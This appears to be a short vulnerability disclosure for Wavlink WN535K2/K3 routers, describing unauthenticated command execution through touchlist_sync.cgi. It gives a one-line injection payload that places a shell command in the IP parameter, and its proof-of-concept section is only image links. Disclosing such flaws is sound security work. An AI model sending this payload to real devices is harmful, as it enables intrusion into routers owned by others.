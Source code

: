 ###Wavlink touchlist_sync.cgi command execution

#### Exploit Title

Wavlink touchlist_sync.cgicommand execution

#### Exploit Author

webraybtl@webray.com.cn inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.wavlink.com

#### Software Link

https://www.wavlink.com/zh_cn/firmware.html

#### Version

WN535K2/K3

#### Description

There is a command execution vulnerability in wavlink, through which an attacker can gain server privileges

#### Payload used

/cgi-bin/touchlist_sync.cgi?IP=;cmd;

#### Proof of Concept

![image-20220704141147087](/Users/w0lf/Desktop/Wavlink/image-20220704141147087.png)

![image-20220720101113802](./image-20220720101113802.png)

![image-20220720101128054](./image-20220720101128054.png)






